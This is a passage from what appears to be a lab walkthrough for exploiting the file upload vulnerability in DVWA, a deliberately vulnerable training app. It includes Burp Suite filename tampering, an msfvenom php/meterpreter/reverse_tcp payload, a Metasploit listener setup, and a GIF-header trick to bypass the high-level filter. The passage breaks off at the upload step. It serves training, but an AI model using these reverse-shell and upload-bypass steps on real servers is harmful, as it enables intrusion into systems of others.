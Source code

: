 9. **Forward the Request:**
    Change the filename to `medium.php` in Burp Suite and click Forward.

10. **Disable Intercept:**
    Turn off interception in Burp Suite and close the window.

11. **Confirm Upload:**
    Observe the successful upload message in the browser.

12. **Revert Proxy Settings:**
    Remove the browser proxy settings and close the tab.

13. **Set Up Meterpreter Listener:**
    ```bash
    msfconsole
    use exploit/multi/handler
    set payload php/meterpreter/reverse_tcp
    set LHOST 10.10.1.13
    set LPORT 3333
    run
    ```

14. **Execute Payload:**
    In a new Firefox tab, type: `http://10.10.1.22:8080/dvwa/hackable/uploads/medium.php`.

15. **Confirm Meterpreter Session:**
    Observe the Meterpreter session in the Terminal.

16. **View System Details:**
    ```bash
    sysinfo
    ```

##### High Security Level:

1. **Generate Payload:**
    ```bash
    msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.1.13 LPORT=2222 -f raw
    ```
    - Copy the generated payload.

2. **Edit Payload File:**
    ```bash
    pluma high.jpeg
    ```
    - Paste the payload, add `GIF98` to the first line, and save.

3. **Access DVWA:**
    - Open Firefox, visit http://10.10.1.22:8080/dvwa/login.php
    - Login: admin, Password: password

4. **Change Security Level:**
    - Go to DVWA Security > Set security level to High.

5. **Upload Payload:**
    - Navigate to File Upload, select the edited payload file, and upload.
    - Note the successful upload message.
